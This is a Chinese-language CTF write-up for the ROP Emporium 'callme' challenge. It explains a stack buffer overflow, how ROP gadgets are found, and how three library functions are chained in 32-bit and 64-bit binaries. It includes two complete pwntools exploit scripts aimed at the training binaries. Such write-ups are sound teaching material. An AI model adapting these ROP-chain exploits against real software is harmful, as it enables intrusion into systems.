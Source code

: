 ```yaml
---
title: ROP Emporium の callme
date: 2020-05-29 14:37:20
categories: 
- WriteUPs
- ROP Emporium
tags: 
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练2：callme的解析。

<!-- more -->

## callme32

### Step 1

&emsp;&emsp;程序正常运行截图：

![](/img/callme/callme1.png)

&emsp;&emsp;checksec：32位程序，依然只开启了DEP保护

![](/img/callme/callme2.png)

### Step 2

&emsp;&emsp;还是一样的把程序丢到hopper中分析，首先是callme32主程序。

&emsp;&emsp;可以找到有pwnme函数中fgets函数依然存在溢出漏洞，但是程序中找不到system函数，多了3个callme函数。

![](/img/callme/callme3.png)

&emsp;&emsp;具体看了一下这三个callme函数发现都是去调用libc.so中的对应函数，所以我们去看下题目给的libcallme32.so文件中对应的3个函数具体内容：

![callme_one](/img/callme/callme4.png)

![callme_two](/img/callme/callme5.png)

![callme_three](/img/callme/callme6.png)

&emsp;&emsp;结合题目给的提示：

![](/img/callme/callme7.png)

&emsp;&emsp;所以我们需要控制程序依次调用callme_one，callme_two，callme_three三个函数，且每次传入的参数均为1，2，3。

### Step 3

&emsp;&emsp;确定了思路我们就开始按照思路一步一步往下走。

&emsp;&emsp;首先覆盖fegts函数返回地址为callme_one函数地址，并给出3个运行参数1，2，3。为了实现再次控制栈，我们需要恢复栈实现堆栈平衡。

&emsp;&emsp;我们输入了3个参数，所以我们需要3个pop指令+ret指令，找一下程序中这样的段：

![](/img/callme/callme8.png)

&emsp;&emsp;0x080488a9这个地址的指令是满足条件的，所以我们就可以覆盖fgets函数返回地址调用callme_one函数，然后覆盖调用callme_one函数后的返回地址为我们找到的pop+pop+pop+ret指令保持堆栈平衡。

&emsp;&emsp;然后控制ret返回地址为callme_two函数入口，再次调用pop*3+ret的结构恢复堆栈平衡，然后控制ret跳转到callme_three函数入口......

&emsp;&emsp;就这样玩着套娃游戏就可以解决这道题。

### Appendix

&emsp;&emsp;直接贴上EXP脚本：

```Python
* from pwn import *
* 
* sh = process('./callme32')
* elf = ELF('./callme32')
* 
* one_addr = elf.symbols['callme_one']
* two_addr = elf.symbols['callme_two']
* thr_addr = elf.symbols['callme_three']
* 
* rop_addr = 0x080488a9
* 
* payload_start = 'a' * (0x28 + 0x4)
* payload_one = p32(one_addr) + p32(rop_addr) + p32(1) + p32(2) + p32(3)
* payload_two = p32(two_addr) + p32(rop_addr) + p32(1) + p32(2) + p32(3)
* payload_thr = p32(thr_addr) + p32(0xdeedbeef) + p32(1) + p32(2) + p32(3)
* 
* payload = payload_start + payload_one + payload_two + payload_thr
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;脚本运行成功截图：

![](/img/callme/callme9.png)

## callme

### Step 1

&emsp;&emsp;程序运行以及checksec和32位程序一模一样，只是换成了64位程序，我们需要考虑下传参方式带来的问题。

### Step 2

&emsp;&emsp;在运行64位程序的时候程序会从相应寄存器中读取参数，所以调用函数之前需要先将数据传到寄存器中去。本题中需要传入3个参数，所以我们需要找到一个这样的指令结构：

```Code
* pop rdi
* pop rsi
* pop rdx
* ret
```

&emsp;&emsp;通过ROPgadget找到0x401ab0的位置有满足条件的结构：

![](/img/callme/callme10.png)

&emsp;&emsp;于是每次调用函数的套娃型payload的结构就变成了：payload = rop_addr + 参数1 + 参数2 + 参数3 + func_addr

### Step 3

&emsp;&emsp;直接给出EXP脚本：

```Python
* from pwn import *
* 
* sh = process('./callme')
* elf = ELF('./callme')
* 
* one_addr = elf.symbols['callme_one']
* two_addr = elf.symbols['callme_two']
* thr_addr = elf.symbols['callme_three']
* 
* rop_addr = 0x401ab0
* 
* payload_start = 'a' * (0x20 + 0x8)
* payload_one = p64(rop_addr) + p64(1) + p64(2) + p64(3) + p64(one_addr)
* payload_two = p64(rop_addr) + p64(1) + p64(2) + p64(3) + p64(two_addr)
* payload_thr = p64(rop_addr) + p64(1) + p64(2) + p64(3) + p64(thr_addr)
* 
* payload = payload_start + payload_one + payload_two + payload_thr
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;脚本运行成功截图：

![](/img/callme/callme11.png)